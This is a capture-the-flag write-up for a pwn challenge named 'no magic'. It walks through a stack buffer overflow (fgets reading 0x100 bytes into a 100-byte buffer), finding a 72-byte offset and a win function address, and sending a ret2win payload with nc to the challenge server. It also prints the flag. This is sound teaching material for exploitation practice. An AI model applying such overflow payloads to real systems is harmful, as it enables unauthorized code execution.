

# There's no such thing as magic

I guess you can still pwn me without magic...
I've been told my code should be safe now. Fortunately I didn't have to change much.

```
nc ctf.wackattack.eu 5001
```

[⬇️ no-magic.tgz](./no-magic.tgz)

# Writeup

This binary cointains another stack-buffer overlow because the buffer size is 100 bytes but the fgets allows to insert 255 (0x100) bytes. I found out when it was crashing and I was now able to overwrite the return address.

```bash
$ python3 -c 'print("A"*256)' | ./no_magic 
I have selected a playing card, there's no way you will guess what it is!
Enter your guess: You guessed AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, the secret card was the ... joker (hah)
Segmentation fault (core dumped)
```

Gave this in dmesg:



Then I did adjust the number until it did not crash which was the magic number 72. Found the address for the win function

```bash
$ nm ./no_magic | grep win
0000000000401196 T win
```

Then we send the payload:

```bash
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\x96\x11\x40\x00\x00\x00\x00\x00\n")' | nc ctf.wackattack.eu 5001
I have selected a playing card, there's no way you will guess what it is!
Enter your guess: You guessed AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@, the secret card was the ... joker (hah)
wack{y0ur3_h4rry_p0tt3r??!?}
```

# Flag

```
wack{y0ur3_h4rry_p0tt3r??!?}
```